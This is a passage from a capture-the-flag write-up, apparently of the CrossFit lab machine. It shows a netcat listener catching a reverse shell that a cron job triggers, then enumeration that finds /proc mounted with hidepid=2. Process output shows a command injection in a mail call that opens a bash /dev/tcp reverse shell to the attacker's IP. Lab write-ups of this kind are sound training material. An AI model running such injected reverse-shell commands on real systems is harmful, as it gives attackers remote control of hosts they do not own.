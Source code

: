 Making sure to re-upload a file over FTP, when the cron runs, a shell comes back:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.208.
Ncat: Connection from 10.10.10.208:35360.
bash: cannot set terminal process group (8383): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$ id
uid=1000(isaac) gid=1000(isaac) groups=1000(isaac),50(staff),116(ftp),1005(admins)

```

## Shell as root

### Enumeration

One thing I actually noticed in my first shell was that running `ps auxww` only returned processes for the `www-data` user. The same has been true for each other user so far, including isaac:

```

isaac@crossfit:~/send_updates/includes$ ps auxww
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
isaac     8383  0.0  0.0   2388   756 ?        Ss   17:26   0:00 /bin/sh -c /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     8385  0.3  0.5  89096 22796 ?        S    17:26   0:00 /usr/bin/php /home/isaac/send_updates/send_updates.php
isaac     8415  0.0  0.0   2388   760 ?        S    17:26   0:00 sh -c /usr/bin/mail -s 'CrossFit Club Newsletter' --wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1" '1'
isaac     8417  0.0  0.0   6644  3168 ?        S    17:26   0:00 bash -c bash -i &> /dev/tcp/10.10.14.11/443 0>&1 1
isaac     8418  0.0  0.1   7900  4596 ?        S    17:26   0:00 bash -i
isaac     8684  0.0  0.2  16856  8608 ?        S    17:27   0:00 python3 -c import pty;pty.spawn("bash")
isaac     8685  0.0  0.1   8344  5148 pts/3    Ss   17:27   0:00 bash
isaac     8967  0.0  0.0  10632  3108 pts/3    R+   17:29   0:00 ps auxww

```

This happens when `/proc` is mounted using the `hidepid=2` options:

```

isaac@crossfit:~/send_updates/includes$ mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
...[snip]...

```
